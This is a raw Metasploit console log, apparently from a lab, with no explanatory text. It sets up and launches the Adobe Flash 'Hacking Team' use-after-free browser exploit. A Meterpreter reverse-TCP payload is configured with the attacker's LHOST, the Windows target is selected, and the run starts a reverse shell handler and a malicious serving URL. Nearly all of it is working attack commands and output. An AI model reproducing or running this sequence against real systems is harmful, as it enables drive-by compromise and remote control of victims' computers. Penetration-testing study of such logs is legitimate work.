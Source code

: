 Module options (exploit/multi/browser/adobe_flash_hacking_team_uaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.120    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LHOST 10.13.0.151
LHOST => 10.13.0.151
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > set SRVHOST 10.13.0.151
SRVHOST => 10.13.0.151
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > 
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > 
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > 
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows
   1   Linux


msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > set target 0
target => 0
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.13.0.151:4444 
msf5 exploit(multi/browser/adobe_flash_hacking_team_uaf) > [*] Using URL: http://10.13.0.151:8080/VIKfXc4aGma1bJ6
</pre>
